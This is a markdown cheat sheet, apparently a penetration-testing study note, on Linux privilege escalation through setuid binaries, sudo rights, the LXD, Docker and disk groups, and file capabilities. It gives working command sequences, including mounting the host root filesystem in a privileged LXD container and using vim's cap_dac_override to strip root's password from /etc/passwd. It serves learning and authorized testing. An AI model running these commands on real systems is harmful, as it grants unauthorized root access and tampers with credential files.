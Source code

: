 -  [Special Permissions](#special-permissions)
-  [Sudo Rights Abuse](#sudo-rights-abuse)
-  [Privileged Groups](#privileged-groups)
-  [Capabilities](#capabilities)
---
### Special Permissions
- [setuid & setgid](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)
- It's possible to reverse engineer the program with the special bit set, identify a vulnerability, and exploit this to escalate our privileges.
	``` bash
	# Find binaries with setuid set
	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
	# Find binaries with setgid set
	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
	```
---
### Sudo Rights Abuse
- Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges.
``` bash
sudo -l
```
---
### Privileged Groups
- LXC & [LXD](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)
	- LXD is similar to Docker and is Ubuntu's container manager.
	- By default, all users are added to the LXD group.
	- Members of this group can escalate privileges by creating an LXD container, make it privileged, then access the host file system at `/mnt/root`.
	``` bash
	# Unzip the Alpine image.
	unzip alpine.zip
	
	# Start the LXD initialization process.
	# https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04
	lxd init
	
	# Import the local image.
	lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
	
	# Start a privileged container
	lxc init alpine r00t -c security.privileged=true
	
	# Mount the host file system.
	lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
	
	# Spawn a shell inside the container instance.
	lxc start r00t
	lxc exec r00t /bin/sh
	```
- Docker
	- Create a new Docker instance with the /root directory on the host file system mounted as a volume.
		``` bash
		docker run -v /root:/mnt -it ubuntu
		```
- Disk
	- Disk group have full access to any devices contained within `/dev`, such as `/dev/sda1` (the main device used by the system).
	- An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.
- adm
	- Members of the adm group are able to read all logs stored in `/var/log`.
	- Does not directly grant root access, but leveraged to enumerate user actions, sensitive data in log files and running cron jobs.
---
### Capabilities
Capabilities are a security feature that allows specific privileges to be granted to processes.

| **Capability**         | **Description**                                                                      |
| ---------------------- | ------------------------------------------------------------------------------------ |
| `cap_sys_admin`        | Allows to perform actions with administrative privileges.                            |
| `cap_setuid`           | Allows a process to set its effective user ID.                                       |
| `cap_setgid`           | Allows to set its effective group ID.                                                |
| `cap_dac_override`     | Allows bypassing of file read, write, and execute permission checks.                 |
| `cap_sys_chroot`       | Allows to change the root directory for the current process.                         |
| `cap_sys_ptrace`       | Allows to attach to and debug other processes.                                       |
| `cap_sys_nice`         | Allows to raise or lower the priority of processes.                                  |
| `cap_sys_time`         | Allows to modify the system clock, potentially allowing it to manipulate timestamps. |
| `cap_sys_resource`     | Allows to modify system resource limits.                                             |
| `cap_sys_module`       | Allows to load and unload kernel modules.                                            |
| `cap_net_bind_service` | Allows to bind to network ports.                                                     |

| Value | Privileges Granted                     | Inheritance | Usage Example                                        |
| ----- | -------------------------------------- | ----------- | ---------------------------------------------------- |
| `=`   | Clears or explicitly sets capabilities | None        | `setcap = /path/to/executable`                       |
| `+ep` | Effective and Permitted                | No          | `setcap cap_net_bind_service+ep /path/to/executable` |
| `+ei` | Effective and Inheritable              | Yes         | `setcap cap_net_bind_service+ei /path/to/executable` |
| `+p`  | Permitted only                         | No          | `setcap cap_net_bind_service+p /path/to/executable`  |
- Set and View Capabilities
	``` bash
	# To set a capability
	sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
	# To see the capability on the executable
	getcap /usr/bin/vim.basic
	```
- Enumerating and Exploiting Capabilities
	``` bash
	$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
	/usr/bin/vim.basic cap_dac_override=eip
	
	$ cat /etc/passwd | head -n1
	root:x:0:0:root:/root:/bin/bash
	
	# Use the cap_dac_override capability of the /usr/bin/vim binary to modify a system file:
	/usr/bin/vim.basic /etc/passwd
	# We also can make these changes in a non-interactive mode:
	$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
	
	$ cat /etc/passwd | head -n1
	root::0:0:root:/root:/bin/bash
	# Without the {x}, use the command su to log in as root without being asked for the password.
	```
---
